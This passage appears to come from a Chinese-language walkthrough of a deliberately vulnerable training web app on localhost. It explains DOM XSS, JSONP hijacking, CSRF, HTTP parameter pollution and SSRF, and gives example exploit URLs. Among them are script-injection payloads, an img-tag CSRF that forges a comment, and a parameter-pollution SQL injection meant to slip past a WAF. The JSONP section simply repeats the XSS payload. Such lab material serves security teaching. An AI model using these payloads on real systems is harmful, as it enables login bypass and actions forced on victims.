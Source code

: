 EXPLOIT:

http://127.0.0.1:65412/?comment=<script>alert("arbitrary javascript")</script>

4.2.3 Cross Site Scripting (DOM)

DOM型跨站脚本攻击: 基于DOM的跨站脚本是XSS bug的事实上的名字，它是页面上通常是JavaScript的活动浏览器端内容的结果，获取用户输入，然后做一些不安全的事情，导致注入代码的执行。

漏洞地址:    
http://127.0.0.1:65412/?#lang=en

EXPLOIT:

http://127.0.0.1:65412/?foobar#lang=en<script>alert("arbitrary javascript")</script>

4.2.4 Cross Site Scripting (JSONP)

JSONP劫持: 网站中通过 JSONP 的方式来跨域（一般为子域）传递用户认证后的敏感信息时，攻击者可以构造恶意的 JSONP 调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。

漏洞地址:    
http://127.0.0.1:65412/?#lang=en

EXPLOIT:

http://127.0.0.1:65412/?foobar#lang=en<script>alert("arbitrary javascript")</script>

4.2.5 Cross Site Request Forgery

跨站请求伪造: 会导致受害者在当前被认证的Web应用程序上执行一些 “非正常授权” 的操作。通常这类攻击需要借助第三方（如:通过邮件、私信、聊天发送链接等）的一些帮助，攻击者可以强制Web应用程序的用户执行攻击者选择的操作。当受害者是普通用户时, CSRF攻击可能会影响最终用户数据和操作; 如果受害者是管理员帐户，CSRF攻击可能会危及整个Web应用程序系统的安全。

漏洞地址:    
http://127.0.0.1:65412/?comment=

EXPLOIT:

http://127.0.0.1:65412/?v=<img src="/?comment=<div style="color:red; font-weight: bold">I quit the job</div>">

    这里使用了<img>标签来自动发布了一个红色字体的I quit the job评论。

4.3 其他漏洞
4.3.1 HTTP Parameter Pollution

HTTP参数污染: 当使用GET或者POST方法提交参数时, 请求体中包含了多个相同名称而不同值的参数。由于不同的语言与Web容器处理的方式不同, 结合业务场景会产生不同的影响。 通过利用这些影响，攻击者可能能够绕过输入验证，触发应用程序错误或修改内部变量值等风险。

漏洞地址:    
http://127.0.0.1:65412/login?username=admin&password=

EXPLOIT:

http://127.0.0.1:65412/login?username=admin&password='/*&password=*/OR/*&password=*/'1'/*&password=*/LIKE/*&password=*/'1

    这里使用了HTTP参数污染来模拟绕过WAF

4.3.2 Server Side Request Forgery

服务器端请求伪造: 一种由攻击者构造形成的指令并由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统资源。

漏洞地址:    
http://127.0.0.1:65412/?path=
